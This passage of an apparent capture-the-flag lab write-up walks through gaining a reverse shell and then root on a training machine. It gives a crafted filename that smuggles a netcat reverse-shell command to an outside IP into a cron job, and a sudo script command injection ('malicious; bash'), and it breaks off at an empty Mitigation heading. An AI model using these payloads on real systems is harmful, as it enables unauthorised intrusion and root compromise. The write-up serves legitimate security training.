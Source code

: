 ```bash
echo "test" > "; nc 10.10.14.8 4343 -c bash"
```

Start a new Netcat listener:

```bash
nc -lvnp 4343
```

Wait for the cron job to execute (within 3 minutes). The crafted filename triggers a reverse shell as the `guly` user.

## 4. Privilege Escalation

As the `guly` user, check for sudo privileges:

```bash
sudo -l
```

**Output:** User `guly` can run `/usr/local/sbin/changename.sh` as root without a password.

Inspect the `clangename.sh` script:

```bash
cat /usr/local/sbin/changename.sh
```

The script writes user input to `/etc/sysconfig/network-scripts/ifcfg-guly` and starts a network interface. It uses a weak regex (`^[a-zA-Z0-9_\ /-]+$`) that allows spaces, which can lead to command injection in the `ifup` command due to a vulnerability in CentOS network-scripts.

Run the script and input a malicious payload for the `NAME` field:

```bash
sudo /usr/local/sbin/changename.sh
# For NAME, enter: malicious; bash
# For other fields, enter valid input (e.g., none)
```

**Result:** The payload triggers a root shell.

Navigate to capture the flags:

```bash
cd /home/guly
cat user.txt
cd /root
cat root.txt
```

## 5. Additional Vulnerability

The weak regex in `clangename.sh` allows arbitrary command execution, which could be exploited in other ways, such as writing malicious configuration files or executing other commands as root.

## 6. Mitigation
